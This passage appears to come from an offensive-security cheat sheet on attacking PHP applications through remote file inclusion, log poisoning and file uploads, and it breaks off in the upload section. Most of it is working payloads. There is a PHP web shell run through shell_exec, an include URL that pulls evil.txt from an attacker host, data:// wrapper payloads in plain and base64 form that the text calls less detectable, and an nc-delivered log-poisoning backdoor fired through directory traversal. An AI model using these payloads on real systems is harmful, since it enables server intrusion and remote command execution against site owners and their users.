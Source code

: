 ## RFI

* create malicious file evil.txt with payload for php or for any other platform

`<?php echo shell_exec($_GET['cmd']); ?>`

This is how evil.txt can be accessed from the victim host hosted on attacker side

`http://VICTIM.IP/menu.php?file=http://ATTACKER.IP/evil.txt?`

* Include %00 or ? to trick php into terminating the string or considering it as part of URL
* To enhance attacks wrappers can be used. Here are php wrappers

```
#data wrapper
http://10.11.xx.xx/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>
```
Payload after text/plain can either plain text or base64 encoded.

Here follos example of base64 payload. Base64 is better as it is less detectable and causes less errors.

```
http://192.168.xxx.10/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>

http://192.168.xxx.10/menu.php?file=data:text/plain;base64,PD9waHAgZWNobyBzaGVsbF9leGVjKCJkaXIiKSA/Pg==
```

## Log Poisoning

* submit a request that includes some malicious code

```php

#submit simple php backdoor

nc 10.10.10.xxx 80

<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>

```

* trigger malicious log

```bash

http://10.10.10.xxx /menu.php?file=../../../../var/log/apache2/access.log&cmd=whoami

```

* tip: `for reverse shell encode the command as url` in Burp or so

## File Uploads

* upload and find path to the file to execute it
* if execution not possible then try overwriting system files if directory traversal aso possible:
